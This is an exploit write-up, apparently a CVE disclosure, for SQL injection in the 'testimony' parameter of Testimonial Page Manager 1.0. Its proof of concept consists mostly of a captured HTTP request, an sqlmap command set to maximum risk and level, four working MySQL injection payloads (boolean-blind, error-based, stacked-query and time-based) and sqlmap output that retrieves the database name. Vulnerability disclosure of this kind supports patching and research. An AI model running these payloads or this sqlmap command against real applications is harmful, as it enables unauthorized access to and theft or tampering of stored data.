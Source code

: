 # Testimonial Page Manager - SQL Injection
+ *Exploit Title:* Testimonial Page Manager - SQL Injection
+ *Date:* 2024-30-01
+ *Exploit Author:* Tuba Kavgacı
+ *Vendor Homepage:* https://www.sourcecodester.com/php/17141/testimonial-page-manager-using-php-and-mysql-source-code.html
+ *Software Link:* https://www.sourcecodester.com/download-code?nid=17141&title=Testimonial+Page+Manager+Using+PHP+and+MySQL+with+Source+Code
+ *Version:* 1.0
+ *Tested on:* Windows 11 Home + PHP 8.2.12, Apache 2.4.58
+ *CVE:* Reported, Waiting for CVE number

## References: 
+ https://portswigger.net/web-security/sql-injection

## Description:
Testimonial Page Manager App 1.0, allows SQL Injection via the 'testimony' parameter in http://testimonial-page-manager/endpoint/delete-testimony.php?testimony=2. Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: http://localhost/testimonial-page-manager
+ Select any testimonial and press the delete-testimonial button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /testimonial-page-manager/endpoint/delete-testimony.php?testimony=2 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```
+ Use sqlmap to exploit. In sqlmap, use 'testimony' parameter to dump the database.
```
python sqlmap.py -r r.txt -p testimony --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: testimony (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: testimony=2' RLIKE (SELECT (CASE WHEN (9194=9194) THEN 2 ELSE 0x28 END))-- KweN

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: testimony=2' AND EXTRACTVALUE(4958,CONCAT(0x5c,0x716a6a6b71,(SELECT (ELT(4958=4958,1))),0x716a627871))-- DPLG

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: testimony=2';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: testimony=2' AND (SELECT 6810 FROM (SELECT(SLEEP(5)))XunP)-- DRMW
---
[10:21:39] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[10:21:39] [INFO] fetching current database
[10:21:39] [INFO] retrieved: 'testimonial_db'
current database: 'testimonial_db'
```
+ current database : `testimonial_db`

![Ekran görüntüsü 2024-01-30 183158](https://github.com/tubakvgc/CVE/assets/74067343/5fd5c3e6-4020-47a2-95f2-cfb631bb357e)


  


  
